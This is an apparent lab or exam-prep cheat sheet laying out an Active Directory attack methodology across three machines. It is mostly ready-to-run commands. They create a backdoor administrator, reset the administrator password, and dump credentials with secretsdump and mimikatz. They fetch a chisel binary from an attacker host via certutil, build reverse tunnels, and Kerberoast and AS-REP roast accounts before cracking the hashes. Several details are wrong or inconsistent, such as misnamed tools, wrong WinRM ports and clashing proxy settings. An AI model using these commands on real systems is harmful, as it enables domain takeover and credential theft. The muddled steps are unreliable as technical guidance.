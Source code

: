 # Active Directory General Methodology

Active Directory is challenging for everyone, With the provided credentials, simply run an Nmap scan to enumerate services and open ports. Use the scan results to determine where to apply the credentials effectively based on the identified services. there are three different machines: Machine01, Machine02, Domain01. The Machine01 machine always begins with initial access and privilege escalation as a standalone. Please use the following steps to work on Active Directory:

1. Run net user /domain.
2. List users and run sharpHound.ps1 to find domain users (otherwise not in user list) and also with the steps below.
3. Run secretdumps, and if you come from a reverse shell, then change the administrator password.
4. For tunneling (use Chisel or run with SSH), if there is an issue, revert the machine.
5. Find user and password from secretdumps, mimikatz c drive, config files, winpeas, etc.
6. Check services with open ports such as 22, 1433, 5896, 5895, 445, etc.
7. Use CrackMapExec with user and password, testing with the above services.
8. Perform AS-REP Roasting with GetUserSPN.py or Rubeus.exe.
9. If SQL, use mssqlclient.py; if SMB, use psexec.py; if WinRM or evil-winrm, check the administrator, then move to the next step to find the Windows root.
10. For Domain01:
11. Run secretsdump (Default administrator) with user pass or hash, same with psexec, winrm, SSH, etc.
12. Directly rooted."

## Machine01

After get privilege escalation then run following commands
· Transfer SharpHound.ps1 to target & load in powershell ::

    · . . \SharpHound.ps1

    · Invoke-BloodHound -CollectionMethod All

· Found users account domain01 (if you find user then don’t use below step)

· transfer bloodhound.zip on kali

· Create a new user (if you want or change administrator password)

    · net user noman Noman@321 /add

    · net localgroup administrators noman /add

    · net user administrator Noman@123 (password Changed of administrator)

· run secret dump or use mimikatz to find user and password on machine01

· use impacket for secret dump https://github.com/fortra/impacket

    · python3 ./secretsdump.py ./administrator: Noman@123@192.168.10.10 (check domain users with noman.domain specially default username and password

· for MimiKatz 

    privilege::debug | token::elevate | sekurlsa::logonpasswords

## Machine02

The first step is to start port forwarding, followed by running AS-REP Roasting with
GetUserSPNs.py for Linux and Rubeus.exe for Windows. If neither method works, manually
enumerate in Windows to find the username and password or again use mimikatz. If you are
not an administrator, apply Windows privilege escalation techniques on it. This will help you
gain privileges on Machine02.
· run map on Machine02 with 

    proxychains nmap -sT -sU -p22,161,135,139,445,88,3389 10.10.10.10

Port Forward with SSH (if port 22 is open in machine01)

    · ssh -D 8001 -C -q -N noman@192.168.10.10

in /etc/proxychains4.conf (add 127.0.0.1 9999)

    · socks5 127.0.0.1 8001

Port Forward with chisel

· socks5 127.0.0.1 1080 add this in /etc/proxychains

    · ./chisel server -p 5555 --reverse

    · certutil -urlcache -split -f http://192.168.100.100/chisel-x64.exe

    · chisel client 192.168.100.100:5555 R:socks

## Windows Kerberoasting with Windows Machine02

    · .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

    · sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule –force

OR

Get-UserSPNs.py

· make user firewall if off and you are local admin etc)

    proxychains python3 impacket-GetNPUsers noman.domain/noman:Noman@123 -dc-ip 10.10.100.100

    sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule –force

If SQL, use mssqlclient.py; if SMB, use psexec.py; if WinRM or evil-winrm, check the
administrator, then move to the next step to find the Windows root. If you find a lot of
username and password then use crackmapexec for SMB, SQL, WinRm or evil-winrm

## Domain01

· run nmap on Domain01 with 

    proxychains nmap -sT -sU -p22,161,445,88,3389 10.10.10.10

· check nmap for login and use crackmapexec. If you don’t want to use nmap then

· simply login with psexec,winrm or winexe

· if you cant find the username and password then use different method like pass the hash, silver ticket
